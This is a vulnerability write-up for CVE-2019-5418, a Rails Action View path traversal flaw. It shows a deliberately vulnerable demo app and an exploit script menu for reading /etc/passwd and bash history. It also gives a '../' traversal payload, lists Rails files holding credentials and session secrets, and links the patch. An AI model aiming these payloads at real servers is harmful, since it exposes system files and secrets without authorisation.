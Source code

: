 ```yaml
---
description: Reproduction and demonstration of the vulnerability
---
```


# RailRoadBandit CVE-2019-5418

![](../.gitbook/assets/ruby_on_rails.png)

### Introduction:

There is a File Content Disclosure vulnerability in Action View affecting Rails versions `<5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1.` Specially crafted accept headers in combination with calls to `render file:` can cause arbitrary files on the target server to be rendered, disclosing the file contents. The impact is limited to calls to `render` which render file contents without a specified accept format.

### What is Rails?

Ruby on Rails, or Rails, is a server-side web application framework written in Ruby that uses the model–view–controller \(MVC\) structure pattern, providing default structures for a database, a web service, and web pages. 

![](../.gitbook/assets/mvc.png)

Rails is used to build full web applications like \(Basecamp, GitHub, Shopify, Airbnb, Twitch, SoundCloud, Hulu, Zendesk, Square, Cookpad.\)

### Path Traversal:

This vulnerability is a path traversal vulnerability \([OWASP Top 10: A5:2017-Broken Access Control](https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control)\) A path traversal attack \(also known as directory traversal\) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash \(../\)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control \(such as in the case of locked or in-use files on the Microsoft Windows operating system\).

This attack is also known as “dot-dot-slash,” “directory traversal,” “directory climbing” and “backtracking.” source: [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### reproducing:

To demonstrate the vulnerability, I built a Ruby on Rails site: [bandit.bad3r.xyz](http://bandit.bad3r.xyz/) you can recreate the demo locally by installing Ruby on Rails then cloning my repo [Bad3r/RailRoadBandit](https://github.com/Bad3r/RailroadBandit) Digital Ocean has an excellent guide to get you started make sure to install a vulnerable Rails \(e.g. 5.2.1\): [How To Install Ruby on Rails with rbenv on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-ruby-on-rails-with-rbenv-on-ubuntu-18-04) you can also create your demo manually by editing the default application controller in

```bash
<web root folder>/app/controllers/application_controller.rb
```

open the file and add a call to "render file:"

{% code-tabs %}
{% code-tabs-item title="application\_controller.rb" %}
```ruby
class ApplicationController < ActionController::Base
    def indexapplication_controller.rb
        render file:  "#{Rails.root}/public/bandit/bandit.html"
    end
end
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Here am just rendering an HTML file but you can also render any text file. then edit the route file located in

```bash
<web root folder>/config/routes.rb
```

to add a route for the controller:

{% code-tabs %}
{% code-tabs-item title="routes.rb" %}
```ruby
Rails.application.routes.draw do
    get 'application/index' => 'application#index'
    root 'application#index'
end
```
{% endcode-tabs-item %}
{% endcode-tabs %}

That's all you need to follow this demo. You should check if the file is rendered correctly and the `route.rb` config is correct.

### Exploiting the vulnerability:

the script used in the demo is available in my Github repo [Bad3r/RailRoadBandit](https://github.com/Bad3r/RailroadBandit) run the script using the format:

```bash
┌ ~/RailroadBandit
└> % python3 Bandit.py http://bandit.bad3r.xyz/
```

then you will see a menu of built-in options to view some sensitive data:

```bash
└> % python3 Bandit.py http://bandit.bad3r.xyz/

    ----------------------------------------------
    Arbitrary Traversal exploit for Ruby on Rails
                     CVE-2019-5418
    ----------------------------------------------


             Enter an option or a file path (enter quit or q to exit)

             enter 1 for /etc/passwd 

             enter 2 for /proc/cpuinfo 

             enter 3 for bash history 

             enter 4 to brute force:
```

you can use one of the built-in options or give the path for the file manually

```bash
../../../../../../../../../etc/passwd
```

here we use `../` for directory traversal, the result is: 

![](../.gitbook/assets/etc_passwd.png)

I am working on adding more features to the script like brute forcing the web root directory name.

### Ruby on Rails sensitive files:

there is some important files in ruby on rails that can also reveal sensitive information like:

| File | Description |
| :--- | :---: |
| /config/database.yml | May contain production credentials |
| /config/initializers/secret\_token.rb | Contains a secret used to hash session cookie |
| db/seeds.rb | May contain seed data including bootstrap admin user |
| /db/development.sqlite3 | May contain the SQL database |
| ---- |  |

### Patch:

![](../.gitbook/assets/deepinscreenshot_select-area_20190429142835.png)

[https://github.com/rails/rails/commit/f4c70c2222180b8d9d924f00af0c7fd632e26715](https://github.com/rails/rails/commit/f4c70c2222180b8d9d924f00af0c7fd632e26715)


